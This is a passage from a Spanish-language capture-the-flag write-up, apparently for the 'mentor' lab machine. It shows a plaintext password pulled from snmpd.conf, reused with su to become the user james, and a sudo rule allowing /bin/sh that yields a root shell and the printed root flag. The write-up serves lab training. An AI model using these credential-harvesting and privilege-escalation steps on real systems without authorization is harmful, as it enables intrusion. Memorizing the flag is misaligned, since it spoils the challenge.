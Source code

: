 En el archivo de configuración podemos encontrar una contraseña en texto plano

```shell
svc@mentor:~$ cat /etc/snmp/snmpd.conf | grep Password
createUser bootstrap MD5 SuperSecurePassword123__ DES
svc@mentor:~$ 
```

Es la contraseña del usuario `James`, así que nos convertiremoos en `James` usando el comando `su`

```shell
svc@mentor:~$ su james
Password: SuperSecurePassword123__
james@mentor:/home/svc$ id
uid=1000(james) gid=1000(james) groups=1000(james)
james@mentor:/home/svc$ 
```

Si nos fijamos en los privilegios a nivel de sudoers, nos percatamos que podemos ejecutar `/bin/sh` como root, la escalada es fácil

```shell
james@mentor:/home/svc$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
james@mentor:/home/svc$ sudo sh
# bash
root@mentor:/home/svc# id
uid=0(root) gid=0(root) groups=0(root)
root@mentor:/home/svc# cd
root@mentor:~# ls
logins.log  root.txt  scripts  snap
root@mentor:~# cat root.txt 
85b7faf34ac77201de181b4904ae8111
root@mentor:~# 
```
